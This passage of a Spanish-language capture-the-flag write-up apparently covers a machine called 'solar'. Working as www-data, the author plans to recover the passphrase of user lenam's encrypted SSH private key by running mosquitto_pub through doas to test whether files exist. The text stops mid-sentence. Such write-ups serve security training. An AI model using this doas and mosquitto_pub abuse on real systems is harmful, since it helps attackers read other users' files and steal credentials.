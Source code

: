![alt text](../../../assets/images/solar/image-14.png)

La clave está encriptada y el `passphrase` es fuerte; no está en `rockyou.txt`.

### Obtener `passphrase` del `id_ed25519` de lenam

Creamos un fichero y una carpeta....

```bash
www-data@solar:/tmp$ ls -l
total 4
-rw-r--r-- 1 www-data www-data    0 Aug 27 17:12 file
drwxr-xr-x 2 www-data www-data 4096 Aug 27 17:11 folder
```

Con el parámetro `-f` de `mosquitto_pub`, podemos identificar si no existe: 

```bash
www-data@solar:/tmp$ doas -u lenam /usr/bin/mosquitto_pub -f ./filenoexist
Error: Unable to open file "./filenoexist".
Error loading input file "./filenoexist".
```

Si el fichero existe (incluso enviarlo a un `topic`),

